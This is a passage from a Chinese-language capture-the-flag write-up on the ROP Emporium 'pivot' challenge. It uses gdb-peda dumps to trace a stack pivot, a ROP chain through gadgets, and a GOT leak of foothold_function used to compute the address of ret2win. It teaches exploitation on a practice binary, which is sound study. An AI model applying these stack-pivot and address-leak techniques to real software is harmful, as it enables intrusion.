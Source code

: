 EBP 的值 `0xf755cf0c` 被赋值给 ESP，并将 主payload 的 ebp 赋值给 EBP，同时 ESP+4=`0xf755cf10`，这个值正是我们 主payload 的地址。

第二次 ret：

```text
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EBX: 0x0
ECX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EDX: 0xf7731860 --> 0x0
ESI: 0xf772fe28 --> 0x1d1d30
EDI: 0x0
EBP: 0x0
ESP: 0xf755cf14 --> 0x80488c0 (<usefulGadgets>: pop    eax)
EIP: 0x80485f0 (<foothold_function@plt>:        jmp    DWORD PTR ds:0x804a024)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80485e0 <exit@plt>:        jmp    DWORD PTR ds:0x804a020
   0x80485e6 <exit@plt+6>:      push   0x28
   0x80485eb <exit@plt+11>:     jmp    0x8048580
=> 0x80485f0 <foothold_function@plt>:   jmp    DWORD PTR ds:0x804a024
 | 0x80485f6 <foothold_function@plt+6>: push   0x30
 | 0x80485fb <foothold_function@plt+11>:        jmp    0x8048580
 | 0x8048600 <__libc_start_main@plt>:   jmp    DWORD PTR ds:0x804a028
 | 0x8048606 <__libc_start_main@plt+6>: push   0x38
 |->   0x80485f6 <foothold_function@plt+6>:     push   0x30
       0x80485fb <foothold_function@plt+11>:    jmp    0x8048580
       0x8048600 <__libc_start_main@plt>:       jmp    DWORD PTR ds:0x804a028
       0x8048606 <__libc_start_main@plt+6>:     push   0x38
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
0000| 0xf755cf14 --> 0x80488c0 (<usefulGadgets>:        pop    eax)
0004| 0xf755cf18 --> 0x804a024 --> 0x80485f6 (<foothold_function@plt+6>:        push   0x30)
0008| 0xf755cf1c --> 0x80488c4 (<usefulGadgets+4>:      mov    eax,DWORD PTR [eax])
0012| 0xf755cf20 --> 0x8048571 (<_init+33>:     pop    ebx)
0016| 0xf755cf24 --> 0x1f7
0020| 0xf755cf28 --> 0x80488c7 (<usefulGadgets+7>:      add    eax,ebx)
0024| 0xf755cf2c --> 0x80486a3 (<deregister_tm_clones+35>:      call   eax)
0028| 0xf755cf30 --> 0xa ('\n')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080485f0 in foothold_function@plt ()
```

成功跳转到 `foothold_function@plt`，接下来系统通过 `_dl_runtime_resolve` 等步骤，将真正的地址写入到 `.got.plt` 中，我们构造 gadget 泄露出该地址地址，然后计算出 `ret2win()` 的地址，调用它，就成功了。

地址泄露的过程：

```text
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0x54 ('T')
EBX: 0x0
ECX: 0x54 ('T')
EDX: 0xf7731854 --> 0x0
ESI: 0xf772fe28 --> 0x1d1d30
EDI: 0x0
EBP: 0x0
ESP: 0xf755cf18 --> 0x804a024 --> 0xf7772770 (<foothold_function>:      push   ebp)
EIP: 0x80488c0 (<usefulGadgets>:        pop    eax)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80488ba:   xchg   ax,ax
   0x80488bc:   xchg   ax,ax
```